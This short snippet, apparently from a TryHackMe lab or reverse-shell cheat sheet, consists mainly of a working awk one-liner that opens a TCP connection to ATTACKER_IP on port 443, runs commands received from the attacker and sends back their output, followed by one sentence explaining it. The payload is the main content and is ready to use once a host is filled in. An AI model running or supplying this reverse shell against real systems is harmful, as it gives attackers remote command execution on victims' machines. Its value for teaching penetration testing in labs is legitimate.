 
```sh
target@tryhackme:~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
Uses AWK’s built-in TCP capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same TCP connection.
